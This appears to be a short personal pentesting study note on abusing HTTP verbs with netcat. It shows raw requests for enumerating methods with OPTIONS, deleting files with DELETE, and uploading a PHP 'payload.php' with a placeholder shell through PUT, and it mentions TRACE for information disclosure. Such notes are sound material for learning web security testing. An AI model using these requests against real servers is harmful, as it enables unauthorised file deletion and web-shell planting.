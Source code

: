 
### General Notes

> Exploiting [[HTTP]] verbs.
> Check the resulting [[HTTP]] response to see effect of exploitation.
> Done using [[netcat]]
---

### Enumerate available verbs

> Using `netcat`, connect and then send a request using the `options` verb.
```
nc example.site 80
OPTIONS / HTTP/1.1
```
> Similar to the usage of `netcat` in [[WebApplication Fingerprinting]].

---

### Exploit `DELETE`

> Using `netcat`, connect and then send a request using the `delete` verb, with the path to the file specified.
```
nc example.site 80
DELETE /path/to/resource.php HTTP/1.1
```
> Similar to the usage of `netcat` in [[WebApplication Fingerprinting]].

---

### Exploit `PUT`

> Must know the size of the file to be uploaded. Use the `wc -m <filename>` to get size in bytes of the file.

> Using `netcat`, connect and then send a request using the `PUT` verb, with the path to the file specified.
```
nc example.site 80
PUT /payload.php HTTP/1.1
Content-type: text/html
Content-length: <size-in-bytes>

<?php shell-code ?>
```

---

### Exploit `TRACE`

> Used in [[Information Disclosure]].
> The web server responds with the exact request that was sent.
> Can be used to test for the hidden server side [[HTTP]] headers.

---
